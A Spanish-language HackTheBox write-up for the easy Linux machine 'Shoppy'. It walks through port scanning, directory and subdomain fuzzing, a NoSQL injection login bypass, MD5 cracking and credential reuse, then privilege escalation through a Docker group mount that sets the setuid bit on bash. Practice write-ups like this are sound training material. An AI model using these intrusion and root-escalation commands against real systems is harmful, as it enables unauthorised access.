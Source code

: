 ```yaml
---
title: HackTheBox - Shoppy
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Command Injection', 'Path Hijacking']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Shoppy/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Shoppy Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, Command Injection, Path Hijacking**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Shoppy/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Shoppy/02-versions.png)

* Añadimos el host al fichero /etc/hosts

c. La página web no tiene información relevante, por lo que haremos un fuzzing de directorios y de subdominios

```bash
❯ gobuster dir -u http://shoppy.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt

**Output**
```bash
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/Login                (Status: 200) [Size: 1074]           
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]             
/fonts                (Status: 301) [Size: 177] [--> /fonts/]  
/images               (Status: 301) [Size: 179] [--> /images/] 
/js                   (Status: 301) [Size: 171] [--> /js/]     
/login                (Status: 200) [Size: 1074]


❯ wfuzz -c -t 100 --hc=404 --hh=169 -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.shoppy.htb" http://shoppy.htb/

000047340:   200        0 L      141 W      3122 Ch     "mattermost"
```


* El panel de **login** es vulnerable a inyección [No SQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

    ![](/assets/images/HTB/Easy/Shoppy/03-nosql.png)

* Una vez en el sistema, podemos buscar usuario en el sistema, aquí también existe una inyección NOSQL y podremos descargar un fichero en el que se representará la información de todos los usuarios

    ![](/assets/images/HTB/Easy/Shoppy/04-data.png)

d. La clave que podemos crackear es la del usuario **josh**

```bash
❯ dcode 6ebcea65320589ca4f2f1ce039975995
<SNIP>
[+] Cracked MD5 Hash : remembermethisway
```

* Este usuario y contraseña son válidos para `mattermost.shoppy.htb`, aquí veremos credenciales válidas para SSH

    ![](/assets/images/HTB/Easy/Shoppy/05-creds.png)

### Escalada de Privilegios 💹

a. Listamos nuestro privilegios a nivel de sudoers

```bash
jaeger@shoppy:/home/deploy$ sudo -l
[sudo] password for jaeger: Sh0ppyBest@pp!

    (deploy) /home/deploy/password-manager
```

* Si le hacemos un cat a este binario, podremos ver la contraseña

    ```bash
    jaeger@shoppy:/home/deploy$ cat password-manager
    <SNIP>
    password: Sample
    <SNIP>
    ```

b. Ahora tendremos credenciales válidas para el usuario **deploy**

```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:/home/deploy$ su deploy
Password: Deploying@pp!
$ bash  
deploy@shoppy:~$
```

c. Vemos los grupos de los que somos miembros

```bash
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

* Ejecutamos un contenedor con una montura el sistema host en el directorio `/mnt` del contenedor

    ```bash
    deploy@shoppy:~$ docker run -v /:/mnt/ --rm -it alpine chroot /mnt sh
    # chmod +s /bin/bash
    # exit
    deploy@shoppy:~$ bash -p
    bash-5.1# whoami
    root
    ```

